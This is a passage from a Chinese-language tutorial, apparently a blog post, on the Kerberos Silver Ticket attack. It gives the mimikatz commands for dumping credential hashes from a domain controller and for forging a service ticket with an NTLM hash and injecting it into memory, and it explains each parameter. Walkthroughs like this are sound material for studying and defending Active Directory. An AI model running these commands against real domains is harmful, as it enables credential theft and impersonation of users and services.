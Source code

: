 ## 0x03 白银票据分析及利用

&ensp;&ensp;&ensp;&ensp;白银票据是一个有效的票据授予服务（TGS）Kerberos票据，因为Kerberos验证服务运行的每台服务器都对服务主体名称的服务帐户进行加密和签名。

&ensp;&ensp;&ensp;&ensp;白银票据主要是发生在第五步骤上。

### 1.首先我们尝试访问目标服务器根目录

![dir](https://img-blog.csdnimg.cn/20200313125239529.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70)

&ensp;&ensp;&ensp;&ensp;访问主域控文件共享，可以看到是无法访问的，说明当前用户密码存在问题，也可以理解为无权限。

## 2.抓取hash

&ensp;&ensp;&ensp;&ensp;用域管理账号登录主域控，使用工具mimikatz.exe执行命令抓取hash（在域控中执行）：

```cmd
#mimikatz.exe “privilege::debug” “sekurlsa::logonpasswords” exit>log.txt
```

![mimiakatz hash](https://img-blog.csdnimg.cn/20200313125259284.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70)

### 3.在Client端查看SID号

&ensp;&ensp;&ensp;&ensp;在Client端查看SID号（在Cient端执行），复制并保存，也可以根据上一步mimikatz导出的文件中找到。

![SID](https://img-blog.csdnimg.cn/20200313125458331.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70)

### 4.创建票据

&ensp;&ensp;&ensp;&ensp;将在域控上抓取的hash也就是NTML值的复制到Client端，打开mimikatz.exe工具(在Cient端执行)，创建票据

```cmd
#kerberos::golden /domain:<域名> /sid:<域 SID> /target:<目标服务器主机名> /service:<服务类型> /rc4:<NTLM Hash> /user:<用户名> /ptt
```

![09](https://img-blog.csdnimg.cn/2020031312551040.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70)

```txt
kerberos::golden：使用minikatz中票据的功能
/domain：指定域名
/sid：Client端查询的sid号，在域控中查询也可以，都是一样的
/target：主域控中的计算机全名
/rc4：在域控中抓取的hash(NTLM)
/service：需要伪造的服务（cifs只是其中的一种服务，可伪造的服务很多）
/user：需要伪造的用户名（可自定义）
/ppt：伪造了以后直接写入到内存中
```

### 5.查看票据

&ensp;&ensp;&ensp;&ensp;执行了后如果提示successfully表示伪造的白银票据成功写入到内存中。可以通过kerberos::list来查看
